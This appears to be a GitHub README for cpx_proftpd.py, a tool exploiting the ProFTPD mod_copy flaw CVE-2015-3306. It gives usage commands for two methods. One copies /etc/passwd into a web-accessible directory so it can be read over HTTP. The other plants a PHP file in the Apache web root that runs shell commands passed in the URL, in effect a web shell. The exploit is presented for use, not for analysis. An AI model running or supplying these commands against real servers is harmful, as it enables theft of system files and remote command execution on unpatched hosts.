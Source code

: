 # cpx_proftpd.py (by daldana)

Tool for exploit [CVE-2015-3306](http://bugs.proftpd.org/show_bug.cgi?id=4169) reported by Vadim Melihow

METHOD 1:
--------
usage: 

    ```python cpx_proftp.py 1 <IP> <REMOTE_FULLPATH_SRC_FILE> <REMOTE_FULLPATH_DST_FILE>```

ex:

    ```python cpx_proftp.py 1 127.0.0.1 /etc/passwd /var/www/pass.txt```

then try:

    ```http://127.0.0.1/pass.txt```

METHOD 2:
--------

usage: 

    ```python cpx_proftp.py 2 <IP> <REMOTE_FULLPATH_APACHE2>```

ex:

    ```python cpx_proftp.py 2 127.0.0.1 /var/www/html```

then try:

    ```http://127.0.0.1/xxx.php?img=ls```
